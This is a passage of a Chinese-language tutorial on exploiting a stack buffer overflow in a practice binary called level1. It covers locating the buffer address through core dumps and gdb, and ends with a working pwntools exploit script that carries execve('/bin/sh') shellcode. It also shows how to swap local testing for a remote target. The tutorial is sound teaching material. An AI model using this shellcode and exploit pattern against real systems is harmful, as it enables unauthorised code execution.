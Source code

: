 这里我们使用一段最简单的执行`execve ("/bin/sh")`命令的语句作为shellcode。

溢出点有了，shellcode有了，下一步就是控制PC跳转到shellcode的地址上:

```
[shellcode][“AAAAAAAAAAAAAA”….][ret]
^------------------------------------------------|
```

对初学者来说这个shellcode地址的位置其实是一个坑。因为正常的思维是使用gdb调试目标程序，然后查看内存来确定shellcode的位置。但当你真的执行exp的时候你会发现shellcode压根就不在这个地址上！这是为什么呢？原因是gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。怎么解决这个问题呢？

最简单的方法就是开启core dump这个功能。

```
#!bash
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```

开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。

```
#!bash
$./level1 
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

$ gdb level1 /tmp/core.1433844471 
Core was generated by `./level1'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()

(gdb) x/10s $esp-144
0xbffff290:  "ABCD", 'A' <repeats 153 times>, "\n\374\267`\204\004\b"
0xbffff335:  ""
```

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为$esp-144。通过gdb的命令 “x/10s $esp-144”，我们可以得到buf的地址为0xbffff290。

OK，现在溢出点，shellcode和返回值地址都有了，可以开始写exp了。写exp的话，我强烈推荐pwntools这个工具，因为它可以非常方便的做到本地调试和远程攻击的转换。本地测试成功后只需要简单的修改一条语句就可以马上进行远程攻击。

```
#!bash
p = process('./level1')  #本地测试
p = remote('127.0.0.1',10001)  #远程攻击
```

最终本地测试代码如下：

```
#!python
#!/usr/bin/env python
from pwn import *

p = process('./level1') 
ret = 0xbffff290

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

# p32(ret) == struct.pack("<I",ret) 
#对ret进行编码，将地址转换成内存中的二进制存储形式
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)

p.send(payload) #发送payload
```